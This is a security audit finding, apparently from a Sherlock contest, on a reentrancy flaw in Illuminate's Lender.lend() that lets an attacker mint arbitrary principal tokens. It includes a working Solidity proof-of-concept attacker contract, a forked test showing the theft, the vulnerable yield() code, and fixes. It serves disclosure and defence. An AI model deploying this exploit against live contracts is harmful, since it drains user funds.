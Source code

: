 Holmgren

high

# Any user can receive arbitrarily large amount of Illuminate tokens for a small deposit by exploiting reentrancy in Lender

## Summary

Any user can receive arbitrarily large amount of Illuminate tokens for a small deposit by exploiting reentrancy in Lender.

## Vulnerability Detail

Several of the `Lender.lend(...)` methods follow the following pattern:
1. Calculate Lender's current balance of the Principal Token
2. Call into a user-supplied address
3. Calculate the new Lender's balance of the Principal Token
4. Report difference between results from steps 3 and 1 as the amount of received Principal Tokens
5. Issue a corresponding amount of Illuminate Principal Token to msg.sender

If in the step 2. the user-supplied address calls recursively into `Lender.lend(...)` the amount of received Principal Tokens will be accounted for multiple times.

Most `Lender.lend(...)` methods are vulnerable. Possible exceptions are those for Notional, Pendle and Tempus.

## Impact

High - any user can manipulate Lender into minting and giving to the attacker arbitrary amount of Illuminate Principal Tokens.

## Code Snippet

Patch adding a proof-of-concept test:
```diff
diff --git a/test/fork/AttackersContract.sol b/test/fork/AttackersContract.sol
new file mode 100644
index 0000000..818dd5b
--- /dev/null
+++ b/test/fork/AttackersContract.sol
@@ -0,0 +1,45 @@
+// SPDX-License-Identifier: UNLICENSED
+pragma solidity ^0.8.16;
+
+import 'src/interfaces/IYield.sol';
+import 'src/interfaces/IERC20.sol';
+import 'src/interfaces/ILender.sol';
+import 'src/Lender.sol';
+
+contract AttackersContract {
+    address pool;
+    address underlying;
+    uint256 maturity;
+    address owner;
+    address ipt;
+    constructor (address _pool, address _underlying, uint256 _maturity, address _ipt) {
+        pool = _pool;
+        underlying = _underlying;
+        maturity = _maturity;
+        owner = msg.sender;
+        ipt = _ipt;
+    }
+    // Basic IYield interface that Lender.lend(...) expects
+    function fyToken() external returns (address) {
+        return IYield(pool).fyToken();
+    }
+    // Basic IYield interface that Lender.lend(...) expects
+    function sellBasePreview(uint128 a) view external returns (uint128) {
+        return IYield(pool).sellBasePreview(a);
+    }
+    // This is where the magic happens
+    function sellBase(address r, uint128) external returns (uint128 result) {
+        IERC20(underlying).approve(r, type(uint256).max);
+        uint256 myBalance = IERC20(underlying).balanceOf(address(this));
+        // Re-enter Lener.lend(...), this time with the correct Yield Space Pool
+        result = uint128(Lender(r).lend(uint8(2),
+                                        underlying,
+                                        maturity,
+                                        myBalance,
+                                        pool,
+                                        myBalance));
+        // Transfer the Illuminate tokens to the attacker
+        IERC20(ipt).transfer(owner, IERC20(ipt).balanceOf(address(this)));
+    }
+
+}
\ No newline at end of file
diff --git a/test/fork/Lender.t.sol b/test/fork/Lender.t.sol
index 999aa2c..775859a 100644
--- a/test/fork/Lender.t.sol
+++ b/test/fork/Lender.t.sol
@@ -3,6 +3,7 @@ pragma solidity ^0.8.16;
 
 import 'forge-std/Test.sol';
 import 'test/fork/Contracts.sol';
+import 'test/fork/AttackersContract.sol';
 import 'test/lib/Hash.sol';
 
 import 'src/Lender.sol';
@@ -91,34 +92,37 @@ contract LenderTest is Test {
         IERC20(u).approve(address(l), 2**256 - 1);
     }
 
-    function testYieldLend() public {
+    function testYieldLend_reentrancy_exploit() public {
         // Set up the market
         deployMarket(Contracts.USDC);
 
         // Runs cheats/approvals
         runCheatcodes(Contracts.USDC);
 
+        address ipt = mp.markets(Contracts.USDC, maturity, 0);
+        address poolContract = Contracts.YIELD_POOL_USDC;
+        // Attacker deploys a malicious contract that pretends to be a Yield Space Pool
+        // but actually it re-enters Lender.lend(...)
+        address attackersContract = address(new AttackersContract(poolContract,
+                                                                  Contracts.USDC,
+                                                                  maturity,
+                                                                  ipt));
         // Execute the lend
         l.lend(
             uint8(2),
             Contracts.USDC,
             maturity,
             amount,
-            Contracts.YIELD_POOL_USDC,
+            attackersContract,
             amount + 1
         );
 
-        // Get the amount that should be transferred (sellBasePreview)
-        uint256 returned = IYield(Contracts.YIELD_POOL_USDC).sellBasePreview(
-            Cast.u128(amount - amount / FEENOMINATOR)
-        );
-
-        // Make sure the principal tokens were transferred to the lender
-        assertEq(returned, IERC20(Contracts.YIELD_TOKEN).balanceOf(address(l)));
-
-        // Make sure the user got the iPTs
-        address ipt = mp.markets(Contracts.USDC, maturity, 0);
-        assertEq(returned, IERC20(ipt).balanceOf(msg.sender));
+        uint256 lendersPrincipalTokens = IERC20(Contracts.YIELD_TOKEN).balanceOf(address(l));
+        uint256 attackersIlluminateTokens = IERC20(ipt).balanceOf(msg.sender);
+        // The attacker got almost twice as much of iPT as he should have.
+        // Attacker could get much higher multiple if the AttackersContract used
+        // more levels of recursion
+        assertGt(attackersIlluminateTokens, lendersPrincipalTokens * 19/10);
     }
 
     function testTempusLend() public {
```

Example of the vulnerability:
https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L928
```solidity
    /// @notice swaps underlying premium via a Yield Space Pool
    /// @dev this method is only used by the Yield, Illuminate and Swivel protocols
    /// @param u address of an underlying asset
    /// @param y Yield Space Pool for the principal token
    /// @param a amount of underlying tokens to lend
    /// @param r the receiving address for PTs
    /// @param p the principal token in the Yield Space Pool
    /// @param m the minimum amount to purchase
    /// @return uint256 the amount of tokens sent to the Yield Space Pool
    function yield(
        address u,
        address y,
        uint256 a,
        address r,
        address p,
        uint256 m
    ) internal returns (uint256) {
        // Get the starting balance (to verify receipt of tokens)
        uint256 starting = IERC20(p).balanceOf(r);

        // Get the amount of tokens received for swapping underlying
        uint128 returned = IYield(y).sellBasePreview(Cast.u128(a));

        // Send the remaining amount to the Yield pool
        Safe.transfer(IERC20(u), y, a);

        // Lend out the remaining tokens in the Yield pool
        IYield(y).sellBase(r, returned);

        // Get the ending balance of principal tokens (must be at least starting + returned)
        uint256 received = IERC20(p).balanceOf(r) - starting;

        // Verify receipt of PTs from Yield Space Pool
        if (received <= m) {
            revert Exception(11, received, m, address(0), address(0));
        }

        return received;
    }
```
(`yield(...)` is called from a couple of `lend(...)` methods. `y` is a user-supplied address)

## Tool used

Manual Review

## Recommendation

* Make the entire Lender contract non-reentrant, for example by using https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard
* Consider using only pre-approved addresses of external pools, similarly to how Principal Tokens have to be pre-approved.